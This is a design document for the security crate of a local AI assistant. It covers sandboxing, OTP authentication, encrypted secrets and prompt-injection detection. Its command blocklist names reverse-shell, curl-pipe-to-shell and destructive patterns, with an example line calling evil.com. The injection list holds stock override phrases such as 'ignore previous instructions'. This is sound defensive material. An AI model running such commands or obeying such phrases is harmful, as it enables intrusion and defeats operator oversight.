








# 07 - Security System

> **Module Goal:** Implement defense-in-depth security with 9 layers — from network isolation and OTP authentication to injection detection, encrypted vaults, WASM sandboxing, and cryptographic audit trails — ensuring user data stays safe and the AI cannot be weaponized through prompt injection.

### Why This Module Exists

A personal AI assistant with tool access is a high-value attack target. Prompt injection could trick the AI into reading private files, sending messages, or executing destructive commands. API keys stored in plaintext could be exfiltrated. Without audit trails, security incidents go undetected.

The Security module addresses every attack surface: Aho-Corasick pattern matching detects injection attempts in real-time, ChaCha20-Poly1305 encrypts secrets at rest, GCRA rate limiting prevents abuse, HMAC-chained audit logs provide tamper-evident records, and WASM sandboxing isolates untrusted skill code with fuel metering. Nine layers work together so that no single bypass compromises the system.

### Business Benefits

| Benefit | Description |
|---------|-------------|
| **Injection defense** | 20 Aho-Corasick patterns + chain detection catch sophisticated multi-turn attacks |
| **Data sovereignty** | All data local, encrypted at rest with ChaCha20-Poly1305 — no cloud exposure |
| **Tamper-evident audit** | HMAC-chained audit log detects any post-hoc modification of records |
| **Abuse prevention** | GCRA rate limiting with per-channel and per-IP quotas prevents resource exhaustion |
| **Safe extensibility** | WASM sandbox with fuel metering isolates untrusted code — skills can't escape their sandbox |
| **Zero-password auth** | OTP pairing eliminates password management — secure yet user-friendly |

> **Crate**: `antec-security` (`crates/antec-security/`)
> **Purpose**: Nine-layer defense-in-depth security model covering network isolation, authentication, sandboxing, injection detection, secret management, rate limiting, audit trails, crash recovery, and data retention.

---

## 1. Architecture Overview

Antec implements nine independent, defense-in-depth security layers. Each layer operates autonomously and can be configured independently. Every inbound message traverses these layers top-to-bottom before reaching the agent loop; every outbound response traverses them bottom-to-top before reaching the client.

### Layer Summary

| # | Layer | Purpose | Module |
|---|-------|---------|--------|
| 1 | Network Isolation | Server binds to `127.0.0.1` only; no external network exposure | `antec-gateway` |
| 2 | Authentication | OTP pairing for first connection, session tokens with 30-day TTL | `antec-gateway` |
| 3 | WASM Sandbox | Fuel + epoch metering, policy modes (Permissive/Balanced/Strict) | `antec-sandbox` |
| 4 | OS Sandbox | Command blocklist with 15 patterns, OS-level isolation | `antec-security::blocklist`, `antec-security::sandbox` |
| 5 | Injection Detection | Aho-Corasick automaton (20 patterns), regex, confidence scoring | `antec-security::injection` |
| 6 | Secret Management | ChaCha20-Poly1305 encryption, Argon2id KDF, secret scanning | `antec-security::secrets` |
| 7 | Rate Limiting | GCRA algorithm, per-tool and per-session rate limiting | `antec-security::rate_limit` |
| 8 | Audit Trail | HMAC-SHA256 chained append-only log | `antec-security::audit` |
| 9 | Crash Guard | Circuit breaker with rolling window, exponential backoff, degraded mode | `antec-core::crash_guard` |

### Security Layer Component Diagram



---

## 2. Layer 1 -- Network Isolation

By default, Antec binds exclusively to `127.0.0.1:8088`. No external network interface is exposed unless the operator explicitly opts in.

### Configuration

```toml
[server]
bind_address = "127.0.0.1"  # default -- localhost only
port = 8088
# To expose on LAN (NOT recommended without reverse proxy):
# bind_address = "0.0.0.0"
```

### Rules

- The gateway rejects any connection attempt from a non-loopback interface when `bind_address` is `127.0.0.1`.
- If `bind_address` is changed to `0.0.0.0`, a startup warning is emitted to stdout and the audit trail.
- WebSocket upgrade requests must originate from the same host (checked via `Origin` header).
- CORS is disabled by default. When enabled, only explicitly listed origins are permitted.

---

## 3. Layer 2 -- Authentication (OTP Pairing + Session Tokens)

Antec uses a pairing-based authentication model. On first launch, a one-time password (OTP) is printed to stdout. The user enters this OTP in the Web Console to establish a trusted session.

### Pairing Flow



### Session Token

```rust
pub struct SessionToken {
    /// SHA-256 hash of the raw token (raw token never stored).
    pub token_hash: String,
    /// When this session was created.
    pub created_at: chrono::DateTime<chrono::Utc>,
    /// Expiry timestamp. Default: created_at + 30 days.
    pub expires_at: chrono::DateTime<chrono::Utc>,
    /// Last time this token was used (updated on each request).
    pub last_used_at: chrono::DateTime<chrono::Utc>,
    /// Whether this session has been explicitly revoked.
    pub revoked: bool,
}
```

### Rules

- OTP is a 6-digit numeric code generated from a CSPRNG. Valid for 5 minutes, single use.
- Session tokens are 32 random bytes, base64url-encoded. Only the SHA-256 hash is stored in SQLite.
- Default TTL: **30 days** from creation. Configurable via `[auth] session_ttl_days`.
- Token rotation: a new token is issued every 7 days on active use. Old token remains valid until its original expiry.
- Maximum 5 concurrent sessions. Creating a 6th revokes the oldest.
- Failed pairing attempts are rate-limited: 3 attempts per minute, 10 per hour.

---

## 4. Layer 3 -- WASM Sandbox (Fuel + Epoch Metering)

All untrusted code (skills, user-provided scripts) runs inside a Wasmtime-based WASM sandbox. The sandbox enforces resource limits via fuel metering and epoch interrupts.

### Resource Limits

| Resource | Default | Configurable |
|----------|---------|-------------|
| Fuel per invocation | 1,000,000 units | Yes |
| Epoch interrupt interval | 5 seconds | Yes |
| Memory limit | 64 MB | Yes |
| Stack size | 1 MB | No |
| Max instances per skill | 3 | Yes |

### Policy Modes (Permissive / Balanced / Strict)

Three policy modes control what capabilities a WASM skill may access:

| Capability | Permissive | Balanced | Strict |
|------------|-----------|----------|--------|
| Filesystem read | Skill directory only | Skill directory only | Denied |
| Filesystem write | Skill directory only | Denied | Denied |
| Network outbound | Allowed (any host) | Allowed (declared hosts only) | Denied |
| Shell execution | Allowed | Denied | Denied |
| Memory limit | 128 MB | 64 MB | 32 MB |
| Fuel budget | 10,000,000 | 1,000,000 | 100,000 |
| Epoch timeout | 30s | 5s | 1s |

```rust
#[derive(Debug, Clone, Copy, PartialEq, Eq)]
pub enum PolicyMode {
    Permissive,
    Balanced,
    Strict,
}

pub struct WasmSandbox {
    engine: wasmtime::Engine,
    policy: PolicyMode,
    fuel_limit: u64,
    epoch_timeout: Duration,
    memory_limit_bytes: usize,
}
```

### Capability Declaration

Skills declare required capabilities in their manifest (`skill.toml`):

```toml
[capabilities]
filesystem = "read"          # "none" | "read" | "read_write"
network = ["api.example.com"] # list of allowed hosts, or "any"
shell = false
memory_mb = 32
```

Capability checks are two-level:

1. The capability must be **declared** in the skill manifest.
2. The capability must be **allowed** by the active policy mode.

A skill requiring `shell = true` under Strict policy is rejected at installation.

```rust
pub struct CapabilityGate { policy: PolicyMode }

impl CapabilityGate {
    pub fn new(policy: PolicyMode) -> Self;
    pub fn check(&self, caps: &SkillCapabilities) -> Result<(), SandboxError>;
    pub fn check_capability(&self, cap_name: &str, caps: &SkillCapabilities) -> Result<(), SandboxError>;
}
```

---

## 5. Layer 4 -- OS Sandbox (Command Blocklist)

When the agent executes shell commands (via `shell_exec` tool), every command is checked against a blocklist of 15 dangerous patterns before execution.

### Blocked Patterns (15)

| # | Pattern | Threat |
|---|---------|--------|
| 1 | `rm\s+(-[a-zA-Z]*)?rf\s+/` | Recursive delete of root filesystem |
| 2 | `rm\s+(-[a-zA-Z]*)?rf\s+~` | Recursive delete of home directory |
| 3 | `sudo\s+` | Privilege escalation |
| 4 | `dd\s+if=` | Raw disk write |
| 5 | `mkfs` | Filesystem format |
| 6 | `:\(\)\{.*\|.*&.*\};:` | Fork bomb |
| 7 | `>\s*/dev/sd[a-z]` | Raw device overwrite |
| 8 | `chmod\s+777\s+/` | Permission escalation on root |
| 9 | `curl.*\|\s*(ba)?sh` | Remote code execution (curl pipe to shell) |
| 10 | `wget.*\|\s*(ba)?sh` | Remote code execution (wget pipe to shell) |
| 11 | `nc\s+.*-[el]` | Netcat listener (reverse shell) |
| 12 | `python.*-c.*socket` | Python reverse shell |
| 13 | `bash\s+-i\s+>&` | Bash reverse shell |
| 14 | `/dev/tcp/` | Bash network device (reverse shell) |
| 15 | `\beval\b.*\$\(` | Eval with command substitution |

### Implementation

```rust
pub struct CommandBlocklist {
    /// Compiled regex set for O(n) matching against all patterns.
    entries: Vec<BlocklistEntry>,
}

impl CommandBlocklist {
    pub fn default_list() -> Self;

    /// Check a command string against all blocklist patterns.
    /// Returns `Some(reason)` if blocked, `None` if allowed.
    pub fn is_blocked(&self, command: &str) -> Option<&str>;
}
```

### Rules

- Matching is case-insensitive and ignores leading/trailing whitespace.
- Pipe chains are split and each segment is checked independently (`curl https://evil.com | sh` matches pattern 9).
- Blocked commands are logged to the audit trail with actor, timestamp, and the matched pattern.
- The blocklist is additive: operators can add custom patterns via configuration but cannot remove built-in patterns.

### OS-Level Sandbox Backends

For actual command execution, the OS sandbox provides isolation beyond the blocklist:



| Backend | Detection | Isolation Method | Availability |
|---------|-----------|-----------------|--------------|
| Landlock | Check `/sys/kernel/security/lsm` | Kernel LSM: filesystem restrictions via syscalls | Linux 5.13+ |
| Bubblewrap | `bwrap --version` | User-namespace sandbox: `--unshare-all`, `--die-with-parent` | Linux with bwrap |
| Docker | `docker info` | Container: `--rm`, `--network none`, memory/PID limits | Any OS with Docker |
| None | Fallback | RLIMIT resource limits only; warning logged once | Always available |

#### Resource Limits (SandboxLimits)

```rust
pub struct SandboxLimits {
    pub memory_bytes: u64,     // default: 50 MB (50 * 1024 * 1024)
    pub max_processes: u32,    // default: 10 (Linux RLIMIT_NPROC only)
    pub cpu_time_secs: u32,    // default: 30 (RLIMIT_CPU, hard = soft + 5s)
}
```

Applied via RLIMIT on Unix: `RLIMIT_AS` (virtual memory), `RLIMIT_CPU` (CPU time, SIGKILL on exceed), `RLIMIT_NPROC` (max child processes, Linux only).

```rust
pub struct OsSandbox { backend: SandboxBackend, limits: SandboxLimits }

impl OsSandbox {
    pub fn detect() -> Self;
    pub fn with_limits(limits: SandboxLimits) -> Self;
    pub fn backend(&self) -> SandboxBackend;
    pub async fn execute(
        &self, command: &str, working_dir: &Path, timeout: Duration,
    ) -> Result<ExecResult, SecurityError>;
}

pub struct ExecResult {
    pub stdout: String,
    pub stderr: String,
    pub exit_code: i32,
    pub timed_out: bool,
}

pub enum SandboxBackend { Landlock, Bubblewrap, Docker, None }
```

---

## 6. Layer 5 -- Injection Detection

**Module:** `antec-security::injection`

Two-stage detection pipeline: an Aho-Corasick automaton for fast multi-pattern matching, followed by regex rules for structural patterns. Results are combined into a confidence score.

### Injection Detection Flow



### Aho-Corasick Patterns (20)

The automaton is built once at construction time; subsequent scans are allocation-free on the hot path. All detection is case-insensitive (input is lowercased before the primary scan).

| # | Pattern | Category |
|---|---------|----------|
| 1 | `ignore previous instructions` | Override |
| 2 | `disregard system prompt` | Override |
| 3 | `ignore all prior` | Override |
| 4 | `forget your instructions` | Override |
| 5 | `bypass your` | Override |
| 6 | `override your` | Override |
| 7 | `you are now` | Role hijack |
| 8 | `from now on you` | Role hijack |
| 9 | `pretend to be` | Role hijack |
| 10 | `act as if` | Role hijack |
| 11 | `roleplay as` | Role hijack |
| 12 | `new instructions:` | Prompt escape |
| 13 | `system: ` | Prompt escape |
| 14 | `[system]` | Prompt escape |
| 15 | `<\|im_start\|>` | Prompt escape (ChatML) |
| 16 | `jailbreak` | Override |
| 17 | `do anything now` | Override |
| 18 | `ignore safety` | Override |
| 19 | `ignore content policy` | Override |
| 20 | `ignore guidelines` | Override |

Custom patterns can be added at construction time via `with_custom_patterns()`. They are merged with built-in patterns into a single automaton.

### Secondary Regex Patterns

The secondary regex scans the original (non-lowercased) input for structural anomalies:

| Pattern | Unicode Range | Purpose |
|---------|---------------|---------|
| Zero-width space | `U+200B` | Invisible character injection |
| Zero-width non-joiner | `U+200C` | Invisible character injection |
| Zero-width joiner | `U+200D` | Invisible character injection |
| Byte-order mark | `U+FEFF` | Invisible character injection |
| Cyrillic block | `U+0400` - `U+04FF` | Homoglyph attacks |
| Base64 blob | `[A-Za-z0-9+/]{40,}={0,2}` | Encoded injection payloads |

### Confidence Scoring

```
confidence = min(AC_matches * 0.3 + regex_matches * 0.2, 1.0)
```

| Signal | Contribution |
|--------|-------------|
| Each Aho-Corasick pattern match | **+0.3** (deduplicated) |
| Each secondary regex hit | **+0.2** |
| Maximum | 1.0 (hard cap) |

**Examples:**

- 1 AC match, no regex: **0.3** -- below threshold, allowed
- 2 AC matches, no regex: **0.6** -- above threshold, detected
- 1 AC match + 1 regex: **0.5** -- at threshold, detected
- 3 AC matches, no regex: **0.9** -- high confidence
- 4+ AC matches: **1.0** (capped)

### Detection Modes (Flag / Block / Ask)

```rust
pub enum DetectionMode {
    Flag,   // (default) Log and flag but allow through
    Block,  // Reject the message immediately
    Ask,    // Allow but log for operator review
}
```

| Mode | `detected` | `should_block()` | Behavior |
|------|-----------|------------------|----------|
| Flag | true | false | Message proceeds; event logged to audit trail |
| Block | true | true | Message rejected; error returned to sender |
| Ask | true | false | Message proceeds; flagged for human review |

### Detection Result

```rust
pub struct DetectionResult {
    pub detected: bool,          // true if confidence >= threshold
    pub patterns: Vec<String>,   // matched pattern names (deduplicated)
    pub confidence: f64,         // 0.0 to 1.0
}
```

### API

```rust
pub struct InjectionDetector { /* Aho-Corasick automaton, regex set, mode */ }

impl InjectionDetector {
    pub fn new(mode: DetectionMode) -> Self;
    pub fn with_custom_patterns(mode: DetectionMode, extra: &[String]) -> Self;
    pub fn scan(&self, input: &str) -> DetectionResult;
    pub fn mode(&self) -> &DetectionMode;
    pub fn should_block(&self, result: &DetectionResult) -> bool;
}
```

---

## 7. Layer 6 -- Secret Management

**Module:** `antec-security::secrets`

### 7.1 SecretVault (Encryption)

Antec provides an encrypted vault for storing API keys, tokens, and other secrets. Secrets are encrypted at rest using ChaCha20-Poly1305 with keys derived via Argon2id.

#### Algorithm

- **AEAD cipher:** ChaCha20-Poly1305
- **Key derivation:** Argon2id
- **KDF salt:** `b"antec-secret-vault-v1"` (fixed; nonce provides per-ciphertext uniqueness)
- **Key size:** 32 bytes (256 bits)
- **Nonce:** 12 random bytes per encryption (generated via `OsRng`)

#### Key Derivation

```rust
let mut key_bytes = [0u8; 32];
Argon2::default()
    .hash_password_into(master_secret, b"antec-secret-vault-v1", &mut key_bytes)
    .expect("Argon2id key derivation must not fail");
```

Argon2id parameters: memory 64 MB, iterations 3, parallelism 4, output 32 bytes.

#### Encrypt

```
Input:  plaintext bytes
Output: (ciphertext: Vec<u8>, nonce: Vec<u8>)

1. Create ChaCha20Poly1305 cipher from derived key
2. Generate 12 random bytes as nonce (CSPRNG)
3. Encrypt plaintext with AEAD (includes authentication tag)
4. Return (ciphertext, nonce)
```

Storage format: `nonce (12 bytes) || ciphertext || tag (16 bytes)`, stored as BLOB in SQLite.

#### API

```rust
pub struct SecretVault { key: chacha20poly1305::Key }

impl SecretVault {
    pub fn new(master_secret: &[u8]) -> Self;
    pub fn encrypt(&self, plaintext: &[u8]) -> Result<(Vec<u8>, Vec<u8>), SecurityError>;
    pub fn decrypt(&self, ciphertext: &[u8], nonce: &[u8]) -> Result<Vec<u8>, SecurityError>;
}
```

### 7.2 Secret Scanner (~22 Regex Patterns)

Scans text for leaked secrets in LLM outputs and tool results using approximately 22 compiled regex patterns.

#### Pattern Catalog

| # | Pattern Name | Regex | Category |
|---|-------------|-------|----------|
| 1 | AWS Access Key ID | `AKIA[0-9A-Z]{16}` | Cloud |
| 2 | AWS Secret Access Key | `(?i)aws_secret_access_key\s*[=:]\s*\S+` | Cloud |
| 3 | GitHub PAT | `ghp_[A-Za-z0-9_]{36,}` | VCS |
| 4 | GitHub OAuth | `gho_[A-Za-z0-9_]{36,}` | VCS |
| 5 | GitHub App | `ghs_[A-Za-z0-9_]{36,}` | VCS |
| 6 | GitHub Refresh | `ghr_[A-Za-z0-9_]{36,}` | VCS |
| 7 | GitHub Fine-grained | `github_pat_[A-Za-z0-9_]{22,}` | VCS |
| 8 | GitLab Token | `glpat-[A-Za-z0-9\-]{20}` | VCS |
| 9 | Slack Bot Token | `xoxb-[0-9]{10,13}-[A-Za-z0-9-]+` | Messaging |
| 10 | Slack User Token | `xoxp-[0-9]{10,13}-[A-Za-z0-9-]+` | Messaging |
| 11 | Slack Webhook URL | `hooks.slack.com/services/T[A-Z0-9]+/B[A-Z0-9]+/[A-Za-z0-9]+` | Messaging |
| 12 | JWT | `eyJ[A-Za-z0-9_-]{10,}\.[A-Za-z0-9_-]{10,}\.[A-Za-z0-9_-]{10,}` | Auth |
| 13 | Generic API Key | `(?i)(api[_-]?key\|apikey)\s*[=:]\s*['"]?\S{20,}['"]?` | Generic |
| 14 | Generic Secret | `(?i)(secret\|password\|passwd\|token\|credential)\s*[=:]\s*['"]?\S{8,}['"]?` | Generic |
| 15 | Database URL (Postgres) | `(?i)postgres(ql)?://[^:]+:[^@]+@` | Database |
| 16 | Database URL (MySQL) | `(?i)mysql://[^:]+:[^@]+@` | Database |
| 17 | Database URL (MongoDB) | `(?i)mongodb(\+srv)?://[^:]+:[^@]+@` | Database |
| 18 | Private Key PEM | `-----BEGIN (RSA \|EC \|DSA )?PRIVATE KEY-----` | Crypto |
| 19 | OpenAI API Key | `sk-[A-Za-z0-9]{32,}` | AI Provider |
